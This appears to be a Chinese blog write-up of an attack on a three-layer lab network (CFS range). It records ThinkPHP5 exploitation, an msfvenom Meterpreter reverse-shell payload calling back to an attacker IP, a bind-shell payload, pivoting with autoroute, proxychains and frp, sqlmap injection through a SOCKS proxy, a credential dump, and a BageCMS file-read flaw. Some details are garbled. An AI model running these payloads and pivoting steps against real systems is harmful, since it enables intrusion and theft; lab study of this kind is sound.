cfs三层靶机挨打记录
CFS

打开环境 thinkphp5 怼脸上了 这个版本洞洞很多 直接搜
找到个奇妙的 一键exp小工具
咔咔拿下第一台
查看 网卡 ifconfig

直接访问不了 没思路了
被暴打 以后 giegie 说 流量转发 到外边来
可以将靶机上线到msf
uname -a获取目标机信息

命令
1 | msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=10.203.87.148 lport=9091 -f elf > dmhz.elf |
生成后上传到靶机1 修改权限777
1 | set payload linux/x64/meterpreter_reverse_tcp |

收到会话，成功拿到meterperter进入主机
用 MSF 中的这个命令获取当前的网段：

meterpreter中添加路由信息：run autoroute -s 192.168.22.0/24
使用代理模块构建代理
vim /etc/proxychains4.conf配置代理工具

1 | run autoroute -s 192.168.22.0/24 |

使用
1 | use auxiliary/scanner/portscan/tcp |
对192.168.22.0/24段进行扫描

扫到 192.268.22.129这一堆
同时学习了 frp流量转发
1 | frp流量转发 |
流量转发成功。


是个八哥cms

扫一下目录

先查看 robots.txt

捡到宝啦


怀疑有sql 给 sqlmap配个socks代理哦
1 | python3 sqlmap.py --proxy socks5://10.203.87.148:1234 -u "http://192.168.22.129/index.php?r=vul&keyword=1" -p keyword |

跑出来；了 找找密码 随手dump数据库

找到密码 登上去 米西米西
admin/123qwe

bagecms V3.1.3 存在 后台任意文件读取漏洞

活捉

火速上车
ifconfig

使用proxifiter将流量代理到10.203.87.119:1080端口使用工具，连接webshell。 下一台的情况和这台差不多，双网卡还存在一个33网段的ip，进行存活主机探测下一个 靶机 应该是通过192.168.33.0/24这块网卡继续
使用uname -a查询靶机版本信息
msf生成一个 正向链接的 马 给 777
1 | msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=54321 -f elf > mbg.elf |
然后连接以后
添加路由
信息收集
扫端口
445 永恒之蓝，
靶机 跑了 。。。。。。。
反思
1.对于各种 流程太不熟悉 做完一块以后 不知道 该干啥
- msf不会用, 得学 下次 写总结 。
- 对于 网络拓补 相关知识 细节方面 不够了解 有时候知道
 wechat
wechat alipay
alipay